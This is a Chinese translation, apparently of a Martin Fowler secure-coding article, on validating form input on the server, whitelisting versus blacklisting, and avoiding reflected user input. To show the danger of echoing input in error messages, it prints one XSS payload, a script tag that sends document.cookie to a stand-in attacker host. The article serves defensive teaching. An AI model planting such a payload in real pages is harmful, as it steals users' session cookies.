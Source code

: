 

# Reject Unexpected Form Input(拒绝未知的表单输入)

HTML表单本身就可能带来些好像很安全的错觉，表单的构建者肯定觉得他们限制了输入类型、做了数据校验，这样整个表单输入就是安全的。但确信无疑的是，这只是个错觉，尽管客户端地JavaScript脚本可以从安全地角度来说提供完整的校验。

## Untrusted Input

无论我们是否在客户端提供了表单验证或者是否使用了HTTPs连接，我们能够信赖来自用户浏览器的连接的比例都是0。用户可以轻易地在发送之前修改标记，或者使用类似于curl这样的命令行来提交没有经过校验的数据。乃至于一个不明所以的用户可能在一个怀有恶意的网站莫名其妙地添了些内容。浏览器的同源策略并不能够避免来自于恶意站点的提交。为了保证输入数据的完整性，服务器端务必要进行数据校验。

不过估计有人有疑问了，为啥说这个畸形的数据就会导致安全问题呢？这往往取决于你的应用业务逻辑与输出的编码，为了避免不可预知的行为、数据泄露与潜在攻击，需要在输入的数据与可执行代码之间架构一个过滤层。譬如，我们的表单里有一个选择的按钮来允许用户选择合适的通信类型，我们的业务逻辑代码可能是这样的：

```

final String communicationType = req.getParameter("communicationType");
if ("email".equals(communicationType)) {
    sendByEmail();
} else if ("text".equals(communicationType)) {
    sendByText();
} else {
    sendError(resp, format("Can't send by type %s", communicationType));
}

```

上面代码危不危险取决于`sendError`这个方法是怎么定义的，而我们肯定无法确定下游的代码就一定是安全的。最好的选择就是我们在控制流中移除这个危险，而使用的方法就是输入验证。

## Input Validation

输入验证即是保证实际输入与应用预期的输入的一致性。超出预期的输入数据会导致我们系统抛出未知的结果，譬如逻辑崩坏、触发错误乃至于允许攻击者控制系统的一部分。其中像数据库查询这样的能够在服务端作为可执行代码的输入与JavaScript这样在客户端能够被执行的代码更是特别的危险。因此验证输入时保证系统安全性与防卫危险的第一道防线。

开发者们在构建应用系统的过程中会进行一些基本的验证，譬如判断值是否为空或者是否为正数。而从安全的角度考虑，我们需要将输入限定到系统允许的最小集合中，譬如数值型值可以被限定在某个特定的范围内。譬如，系统不会允许用户将一个负值添加到购物车中。这种限制性的验证手段就是所谓的**positive validation**或者**whitelisting**。一个白名单可以用于限定某个具体的URL或者`yyyy/mm/dd`这样的时间日期。它可以限制输入的长度、单个字符的编码规范或者上面例子中的只有给定值可以被接受。

另外一种考虑输入验证的思维角度就是把它当做服务端与消费者之间签订的一种协议，任何违背了这个协议的请求都是无效的并且被拒绝。你的这个协议越严格，你的系统在未知情况下遭受的风险就会越小。而当对于某个输入验证失败之后，开发者也要好好考虑应该如何反馈。最严格，也是最有争议的办法就是全部拒绝，并且没有任何反馈，不过要注意将这个事情通过日志或者监控记录下来。不过为啥一点反馈都没有呢？我们需要提供给用户哪些信息是无效的吗？这一点还是要取决于你的约定。在上面的例子中，如果你接收到了除了`email`或者`text`之外的内容，那你有可能被攻击了。不过如果你进行了反馈，可能正中全套。譬如如果开发者直接返回：俺们并不认识你传入的communicationType，可能这个还无伤大雅，但是如果是这样的呢：

```

<script>new Image().src = ‘http://evil.martinfowler.com/steal?' + document.cookie</script>
```
这种情况下你就会面临一个用来盗取你的Cookies的XSS攻击代码，如果你一定要给用户反馈，你必须保证不会把不受信任的用户内容直接返回，而应该使用固定的提示信息。如果你不可避免地要把用户的输入反馈回去，你要保证它是被编码的。

## In Practice

实践中，我们经常要通过过滤`<script>`标签来避免一些攻击，过滤掉这些包含着危险值的输入的方法就是所谓的**negative validation **或者**blacklisting**。不过这种方法的麻烦之处在于潜在的危险输入是相当多的，很多时候不能胜数。维持一个庞大的危险输入的列表可能是耗费较大的操作，这需要进行频繁地更新。如果你真的需要一个黑名单，这就需要覆盖你所有的测试用例，编写高质量的测试代码，遵循OWASP的[XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)原则。
